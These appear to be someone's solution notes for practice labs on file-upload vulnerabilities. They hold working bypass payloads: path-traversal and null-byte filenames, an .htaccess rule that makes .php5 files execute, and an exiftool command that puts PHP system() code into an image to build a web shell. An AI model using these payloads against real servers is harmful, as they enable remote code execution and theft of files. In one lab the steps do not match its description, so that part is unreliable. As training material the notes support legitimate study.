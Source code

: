 ```
Lab: Remote code execution via web shell upload

APPRENTICE

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. cat /home/carlos/secret

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

1. Upload webshell.php
2. Change content-type to image/jpeg
3. cat /home/carlos/secret

---

```
Lab: Web shell upload via path traversal

PRACTITIONER

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Look that there are no restriction on the upload file functionnality but the php is not interpreted on the location where the file is uploaded
3. Change the filename to perform path traversal in order to uplaod the file where the php can be interpreted
4. filename="..%2Fwebshell.php"
5. Go to files/webshell.php
6. enjoy your RCE
7. cat /home/carlos/secret


---

```
Lab: Web shell upload via extension blacklist bypass

PRACTITIONER

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Bypass restriciton with .php5
3. Add this extension via .htaccess as executable :
```
filename=".htaccess"
Content-Type : text/plain
AddType application/x-httpd-php .php5
```
4. Reload your webshell and now it's interpreted
5. cat /home/carlos/secret

---

```
Lab: Web shell upload via obfuscated file extension

PRACTITIONER
LAB Not solved

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. See that only JPEG and PNG are allowed
3. Bypass extension verification with : .php%00.png


---

```
Lab: Remote code execution via polyglot web shell upload

PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Try to bypass mime type check with :

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---


```
Lab: Web shell upload via race condition

EXPERT

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Intercept POST request > put it in intruder
2. Intercept GET request > put it in the intruser
3. Sniper mode, null payload, continue indefinitely
4. Run both request (POST/GET) in the same time and look the GET request

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---

